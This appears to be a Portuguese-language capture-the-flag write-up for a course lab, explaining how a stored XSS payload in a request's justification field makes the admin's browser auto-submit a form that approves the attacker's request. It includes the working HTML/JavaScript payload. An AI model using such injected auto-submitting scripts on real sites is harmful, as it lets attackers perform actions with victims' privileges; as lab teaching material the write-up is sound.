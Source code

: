 # CTF6

Este CTF involve o uso de XSS, ou seja, é quando o web server não sanitiza o input dado pelos utilizados e logo é possível ao atacante injetar HTML e JS na plataforma.

![Alt text](images/ctf6_1.png)

A página de admin têm dois botões em que se pode dar a flag ou marcar o request como lido:

![Alt text](images/ctf6_3.png)
![Alt text](images/ctf6_2.png)

No entanto, não podemos diretamente usar o link que está no HTML pois o servidor verfica se somos admins ou não:
![Alt text](images/ctf6_4.png)

Nós conseguimos reparar que o request é rejeitado sempre pelo o admin periodicamente e assim, podemos injetar HTML e JS na justificação para aceitar automaticamente o pedido:

```html
<form method="POST" id="canss" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
<script>
    document.addEventListener('DOMContentLoaded', () => {
        document.querySelector("#canss").submit();
    });
</script>
```

Assim, ao submeter este código, eventualmente vai ser corrido pelo o admin e o browser do admin vai fazer um POST request para o server de admin onde vai aprovar o pedido.

Logo, depois de desativarmos a execução de JS no nosso browser (para prevenir o redirect), conseguimos com sucesso ver a flag:
![Alt text](images/ctf6_5.png)